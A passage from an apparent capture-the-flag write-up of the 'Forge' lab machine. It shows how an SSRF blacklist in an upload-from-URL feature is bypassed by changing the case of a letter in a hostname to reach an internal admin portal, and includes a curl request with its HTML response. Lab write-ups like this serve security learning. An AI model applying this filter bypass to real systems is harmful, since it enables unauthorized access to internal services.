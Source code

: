 ```bash
________________________________________________

admin                   [Status: 200, Size: 27, Words: 4, Lines: 2]
```

When trying to view the page in my web browser I got the following:

![admin page](/Forge/Images/admin.png)

Once again this points to SSRF, By using SSRF I will be able to make a request to this page from localhost as the request will first be routed through the server.

So, I tried using the parameter http://admin.forge.htb/ in upload from URL to no avail. I got the same message about the URL being blacklisted as before. Once again I looked at the Portswigger article section on SSRF with blacklist-based filters, I noticed the bullet point on how to bypass blacklisted URL's.

		"Obfuscating blocked strings using URL encoding or case variation"

So, I tried using http://admin.Forge.htb/ instead. By capatalizing the F I was able to bypass the blacklist and was given a URL to the uploaded file. 

When I tried to view the file on the webpage I got another error saying the image can not be displayed, but as mentioned before never trust your browser. 

So, I viewed the link returned with curl instead.

### note: the URL will be different

Response:
```bash
$curl http://forge.htb/uploads/n4xJcOgtHU0EVQmLdwgn
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```
